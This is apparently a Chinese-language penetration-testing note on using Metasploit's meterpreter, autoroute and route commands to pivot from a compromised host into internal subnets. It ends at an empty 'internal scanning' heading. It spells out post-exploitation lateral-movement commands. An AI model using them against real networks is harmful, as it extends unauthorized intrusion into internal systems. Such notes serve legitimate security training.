





# 2023.10.11
参考链接:
1. [内网隧道](https://www.cnblogs.com/0x7e/p/14369551.html)
2. [msf之添加内网路由](https://www.cnblogs.com/0x7e/p/14378746.html)

## 0x01 添加内网路由
在获取到shell后，如果希望继续渗透内网，可以根据以下步骤：

> **_Note:_** 针对metasploit的利用，只要sessions中的route可达，就可以直接进行多层网络渗透，更加方便。但主session掉，均掉！

### 1.1 获取目标内网相关信息
`meterpreter > run get_local_subnets`

> **_Note:_**如果不添加这两个网段路由的话，是探测不到这两个网段其他主机的。

### 1.1 自动添加路由
在获取目标一个sessions 后，可以查看IP段信息并自动添加路由表。

```bash
msf5 exploit(multi/handler) > sessions 1
meterpreter > run get_local_subnets
meterpreter > run autoroute -p
meterpreter > run post/multi/manage/autoroute
meterpreter > run autoroute -p
meterpreter > background
```
### 1.2 手动添加路由


上述是在meterpreter权限中添加，或当知道目标路由表信息时，可直接添加。
```bash
#在全局给指定的session增删路由

msf5 exploit(multi/handler) > route add 192.168.11.0  255.255.255.0  1     #在session1中添加到达192.168.11.0网段的路由
msf5 exploit(multi/handler) > route add 192.168.12.0  255.255.255.0  1     #在session1中添加到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route add 0.0.0.0       0.0.0.0        1     #在session1中添加到达0.0.0.0/24网段的路由
msf5 exploit(multi/handler) > route del 192.168.12.0  255.255.255.0  2     #在session2中删除到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route print    #打印路由信息


#也可以在进入session后添加路由
run autoroute -s 192.168.11.0/24             #添加到达192.168.11.0网段的路由
run autoroute -s 192.168.12.0/24             #添加到达192.168.12.0网段的路由
run autoroute -s 0.0.0.0/0                   #添加到达0.0.0.0/0的路由

run autoroute -p                             #打印路由信息
```

现在即可可在metasploit继续渗透，或开启一个socks，挂载其他工具上多层穿透。

> **_Note:_** 以下是添加路由前后探测的对比信息
> 
> 

> **_Note:_**在实际的内网渗透中，我们可以直接添加到 0.0.0.0/0 的路由。这样，只要该被控主机可达的地址就都可达！
## 0x02 内网扫描
